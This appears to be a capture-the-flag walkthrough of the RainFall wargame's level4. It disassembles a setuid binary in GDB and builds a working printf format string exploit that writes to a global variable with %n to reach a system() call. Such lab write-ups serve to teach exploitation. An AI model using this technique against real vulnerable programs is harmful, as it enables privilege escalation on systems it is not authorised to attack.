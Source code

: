 ```sh
level4@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level4 level4   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level4 level4  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level4 level4 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level5 users  5252 Mar  6  2016 level4
-rw-r--r--+ 1 level4 level4   65 Sep 23  2015 .pass
-rw-r--r--  1 level4 level4  675 Apr  3  2012 .profile
level4@RainFall:~$ ./level4
42
42
level4@RainFall:~$ ./level4 42
42
42
```
There is one excutable file **level3**, it works like cat, take standard input, print them and shutting down. \
\
Run the binary file with GDB.
```sh
(gdb) info functions
...
0x08048444  p
0x08048457  n
0x080484a7  main
...
(gdb) disas p
Dump of assembler code for function p:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x8(%ebp),%eax
   0x0804844d <+9>:     mov    %eax,(%esp)
   0x08048450 <+12>:    call   0x8048340 <printf@plt>
   0x08048455 <+17>:    leave  
   0x08048456 <+18>:    ret    
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
   ...
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>
   0x0804847f <+40>:    lea    -0x208(%ebp),%eax
   0x08048485 <+46>:    mov    %eax,(%esp)
   0x08048488 <+49>:    call   0x8048444 <p>
   0x0804848d <+54>:    mov    0x8049810,%eax
   0x08048492 <+59>:    cmp    $0x1025544,%eax
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
   0x08048499 <+66>:    movl   $0x8048590,(%esp)
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
   0x080484a5 <+78>:    leave  
   0x080484a6 <+79>:    ret    
End of assembler dump.
(gdb) disas main
Dump of assembler code for function main:
   0x080484a7 <+0>:     push   %ebp
   0x080484a8 <+1>:     mov    %esp,%ebp
   0x080484aa <+3>:     and    $0xfffffff0,%esp
   0x080484ad <+6>:     call   0x8048457 <n>
   0x080484b2 <+11>:    leave  
   0x080484b3 <+12>:    ret    
End of assembler dump.
```
We can see 3 functions ```main(), n(), p()```. ```n()``` function gets standard input by fgets, give to ```p()``` function, ```p()``` function does print the variable which is given by function ```n()```, but with ```printf()``` without formatter. \
And compare with variable ```m``` and 0x1025544, in decimal 16930116.
```sh
(gdb) x/s 0x8049810
0x8049810 <m>:   ""
```
As the previous level we try to lookup the stack values,
```sh
level4@RainFall:~$ python -c 'print "BBBB" + " %x" * 20' > /tmp/exploit4
level4@RainFall:~$ cat /tmp/exploit4 | ./level4 
BBBB b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 42424242 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825
```
And we can see that our BBBB which is ```42424242``` at the 12th position, so now we just have to do the same thing as the previous level: set value to ```16930116```.

But oops, the value ```16930116``` is too big number for print it all !

But no worries, there is a solution for this.
```sh
python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"'
```
```printf()``` internally does counting for characters that has been printed but since we have to print ```16930112``` characters, it will be tough to allocate all of them in the memory. \
But by adding little ```d``` option, which helps to count characters "virtually" to track the total numbers of printed characters, it no longer has to allocate memory for millions of characters.
```sh
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/exploit4
level4@RainFall:~$ cat /tmp/exploit4 - | ./level4 
...
(hidden)
```
level4 passed !